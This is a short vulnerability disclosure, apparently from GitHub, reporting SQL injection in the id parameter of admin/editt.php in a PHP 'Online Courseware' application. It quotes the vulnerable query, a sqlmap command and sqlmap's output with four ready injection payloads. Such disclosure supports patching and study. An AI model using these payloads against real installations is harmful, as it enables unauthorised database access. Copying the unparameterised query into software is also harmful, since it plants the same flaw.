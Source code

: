 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/editt.php id parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/editt.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/editt.php):
```
$id=$_GET['id'];
$results = mysqli_query($conn,"SELECT * FROM teacher WHERE id='$id'");
Proof of vulnerability(Verify using the sqlmap tool after logining ):
```
#### -> sqlmap -u http://localhost/onlinecourseware/pcci/admin/editt.php?id=1 --batch
### Output:
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5266=5266 AND 'ZpnB'='ZpnB

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' OR (SELECT 2022 FROM(SELECT COUNT(*),CONCAT(0x717a7a7a71,(SELECT (ELT(2022=2022,1))),0x716a707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'tlWY'='tlWY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9399 FROM (SELECT(SLEEP(5)))rRvj) AND 'sVGJ'='sVGJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x717a7a7a71,0x63576642676b7858487057555879434b5942445667556c4f637446536a6672626d78684b70577554,0x716a707871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```
